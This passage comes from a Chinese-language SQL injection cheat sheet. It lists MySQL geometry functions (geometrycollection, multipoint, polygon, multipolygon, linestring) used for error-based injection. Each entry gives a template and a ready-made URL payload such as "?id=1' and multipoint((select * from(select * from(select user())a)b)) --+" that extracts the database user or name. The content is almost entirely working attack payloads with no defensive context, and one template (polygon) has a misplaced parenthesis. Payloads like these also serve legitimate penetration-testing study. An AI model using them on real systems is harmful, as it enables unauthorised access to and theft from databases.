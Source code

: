 ##### geometrycollection()

**注入使用格式**

```sql
geometrycollection((select * from(select * from(注入语句)a)b))
```

**示例**

```sql
?id=1' and geometrycollection((select * from(select * from(select user())a)b)) --+
```

##### multipoint()

**注入使用格式**

```sql
multipoint((select * from(select * from(注入语句)a)b))
```

**示例**

```sql
?id=1' and multipoint((select * from(select * from(select user())a)b)) --+
```

##### polygon()

**注入使用格式**

```sql
polygon((select * from(select * from(注入语句a)b))
```

**示例**

```sql
?id=1' and polygon((select * from(select * from(select database())a)b)) --+
```

##### multipolygon()

**注入使用格式**

```sql
multipolygon((select * from(select * from(注入语句)a)b))
```

**示例**

```sql
?id=1' and multipolygon((select * from(select * from(select user())a)b)) --+
```

##### linestring()

**注入使用格式**

```sql
linestring((select * from(select * from(注入语句)a)b))
```
